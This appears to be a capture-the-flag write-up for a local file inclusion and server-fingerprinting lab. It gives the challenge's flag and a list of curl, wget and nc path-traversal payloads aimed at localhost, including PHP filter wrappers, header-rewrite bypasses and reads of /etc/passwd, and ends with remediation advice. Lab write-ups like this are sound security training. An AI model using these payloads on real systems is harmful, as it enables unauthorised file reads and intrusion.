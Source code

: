 # Web Server Fingerprinting Breach

## Vulnerability Type
Web Server Fingerprinting & Local File Inclusion (LFI)

## OWASP Reference
https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/01-Information_Gathering/02-Fingerprint_Web_Server

## Discovery Method
1. The html itself already provided the flag under copyright class.

## Flag Location
- Request: `/index.php?page=../flag`
- Flag: `b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f`

## Shell Commands to Find Flag

### Working Command
```bash
curl -s 'http://localhost:8080/index.php?page=../flag'
```

### Other Test Commands
```bash
# Basic LFI attempts
curl -s 'http://localhost:8080/index.php?page=../../flag'
curl -s 'http://localhost:8080/index.php?page=..%2Fflag'
curl -s 'http://localhost:8080/index.php?page=..%252Fflag'

# Check server headers
curl -I http://localhost:8080 | grep -E 'Server|X-Powered-By'

# Alternative tools
wget -qO- 'http://localhost:8080/index.php?page=../flag'
echo -e 'GET /index.php?page=../flag HTTP/1.0\r\n\r\n' | nc localhost 8080

# Different parameters
curl -s 'http://localhost:8080/index.php?file=../flag'
curl -s 'http://localhost:8080/index.php?include=../flag'
curl -s 'http://localhost:8080/index.php?path=../flag'

# URL encoding
curl -s 'http://localhost:8080/index.php?page=%2E%2E%2Fflag'
curl -s 'http://localhost:8080/index.php?page=%252E%252E%252Fflag'

# Custom headers
curl -s -H 'X-Original-URL: /index.php?page=../flag' http://localhost:8080/
curl -s -H 'X-Rewrite-URL: /index.php?page=../flag' http://localhost:8080/

# PHP wrappers
curl -s 'http://localhost:8080/index.php?page=php://filter/convert.base64-encode/resource=../flag'
curl -s 'http://localhost:8080/index.php?page=file:///../flag'

# Common LFI targets
curl -s 'http://localhost:8080/index.php?page=/etc/passwd'
curl -s 'http://localhost:8080/index.php?page=../../../../../etc/passwd'

# Direct access
curl -s 'http://localhost:8080/flag'
```

## Security Impact
1. **Information Disclosure**: Server version exposed for targeted attacks
2. **File Read Access**: Arbitrary file reading capability
3. **Further Exploitation**: Version info enables CVE targeting

## Remediation
1. Hide server headers in nginx/PHP configuration
2. Validate and sanitize the `page` parameter
3. Use whitelisting for allowed page values
4. Implement WAF rules
5. Apply principle of least privilege

## Testing Script
```bash
python3 web_server_fingerprint_exploit.py
```